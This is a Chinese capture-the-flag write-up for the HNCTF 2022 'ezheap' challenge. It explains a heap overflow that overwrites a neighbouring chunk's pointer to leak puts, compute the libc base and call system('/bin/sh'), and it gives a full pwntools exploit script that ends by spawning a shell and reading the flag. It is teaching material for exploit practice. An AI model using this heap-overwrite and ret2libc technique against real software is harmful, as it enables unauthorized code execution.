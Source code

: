 # 堆溢出--ret2libc

## 题目：

[[HNCTF 2022 WEEK4\]ezheap | NSSCTF](https://www.nssctf.cn/problem/3104)

## 讲解：

1. 题目保护全开，要泄漏基地址：

   ![image-20240708171450265](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407081714304.png)

2. 利用栈溢出覆盖put参数泄漏libc基地址，再第二次用system的地址覆盖put函数，实现ret2libc。

### 泄漏libc基地址：

1. 使用put函数输出put函数的地址，先观察函数创建的堆结构：

   ![image-20240708170838451](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407081708517.png)

   ![image-20240708171106004](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407081711139.png)

2. 在看show函数的调用过程：

   ![image-20240708172552482](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407081725550.png)

3. 利用思路，先申请2个heap，用heap0的edit函数来覆盖heap1的content地址使其指向存放put函数地址的堆空间，再调用heap1的show函数，即可泄漏put函数的真实地址。

   调试来确定用0x80，来覆盖heap1的content低地址，使其指向存放put函数地址的堆空间：

   ![image-20240708171954987](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407081719042.png)

   ```python
   add(0,20,b"6",b"6")
   add(1,20,b"6",b"6")
   edit(0,p64(0)*3+p64(0x31)+p64(0)*2+p8(0x80)) //两个堆之间的偏移使固定的
   printf(1)
   ```

   成功覆盖，put函数在调用时会直接用支付穿输出0x000055df3bd91080处的内容，遇到b'\x00‘才停止。

   ![image-20240708172121614](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407081721683.png)

   成功泄漏puts函数的真实地址：

   ```python
   addr = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
   print(hex(addr))
   
   libc_base = addr - libc.symbols['puts']
   sys_addr = libc_base + libc.symbols['system']
   str_bin = libc_base + next(libc.search(b"/bin/sh"))
   log.success("libc_addr==>"+hex(libc_base))
   log.success("system_addr==>"+hex(sys_addr))
   log.success("bin_sh_addr==>"+hex(str_bin))
   ```

   ![image-20240708172657332](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407081726393.png)

   再用拿到的地址，照上面的思路继续用heap0覆盖heap1的堆，让存放puts函数地址的空间覆盖长system的地址，前面的参数地址覆盖成str_bin_sh的地址，两种覆盖方式：

   ```python
   # 覆盖content的地址，show函数要在第二次输出的时候调用system("/bin/sh")
   edit(0,p64(0)*3+p64(0x31)+p64(0)*2+p64(str_bin)+p64(1)+p64(sys_addr))
   # 覆盖name字段的参数，show函数在第一次输出的时候就会调用system("/bin/sh")
   # edit(0,p64(0)*3+p64(0x31)+b"/bin/sh\x00"+p64(0)*2+p64(1)+p64(sys_addr))
   ```

   ![image-20240708173133942](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407081731013.png)

   最后show(1)即可拿到shell，EXP：

   ```python
   from pwn import *
   from LibcSearcher import *
   context(os='linux', arch='amd64', log_level='debug')
   #context(os='linux', arch='amd64')
   
   p = process('./pwn')
   # p = remote("node5.anna.nssctf.cn",20435)
   elf = ELF('./pwn')
   
   libc = ELF('./libc-2.23.so')
   
   n2b = lambda x    : str(x).encode()
   rv  = lambda x    : p.recv(x)
   ru  = lambda s    : p.recvuntil(s)
   sd  = lambda s    : p.send(s)
   sl  = lambda s    : p.sendline(s)
   sn  = lambda s    : sl(n2b(n))
   sa  = lambda t, s : p.sendafter(t, s)
   sla = lambda t, s : p.sendlineafter(t, s)
   sna = lambda t, n : sla(t, n2b(n))
   ia  = lambda      : p.interactive()
   rop = lambda r    : flat([p64(x) for x in r])
   
   def add(index,size,name,content):
       sla(':','1')
       sla(':',str(index))
       sla(':',str(size))
       sla(':',name)
       sla(':',content)
   
   def free(idx):
       sla(':','2')
       sla(':',str(idx))
   
   def printf(index):
       sla(b':',b'3')
       sla(b'idx:',str(index).encode())
   
   def edit(idx, content):
       sla(':','4')
       sla(':',str(idx))
       sa(':',str(len(content)))
       p.sendline(content)
   
   
   add(0,20,b"6",b"6")
   add(1,20,b"6",b"6")
   edit(0,p64(0)*3+p64(0x31)+p64(0)*2+p8(0x80))
   
   printf(1)
   addr = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
   print(hex(addr))
   
   
   libc_base = addr - libc.symbols['puts']
   sys_addr = libc_base + libc.symbols['system']
   str_bin = libc_base + next(libc.search(b"/bin/sh"))
   log.success("libc_addr==>"+hex(libc_base))
   log.success("system_addr==>"+hex(sys_addr))
   log.success("bin_sh_addr==>"+hex(str_bin))
   
   edit(0,p64(0)*3+p64(0x31)+p64(0)*2+p64(str_bin)+p64(1)+p64(sys_addr))
   # edit(0,p64(0)*3+p64(0x31)+b"/bin/sh\x00"+p64(0)*2+p64(1)+p64(sys_addr))
   
   printf(1)
   p.sendline(b'cat flag')
   ia()
   
   ```

   ![image-20240708173505490](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407081735591.png)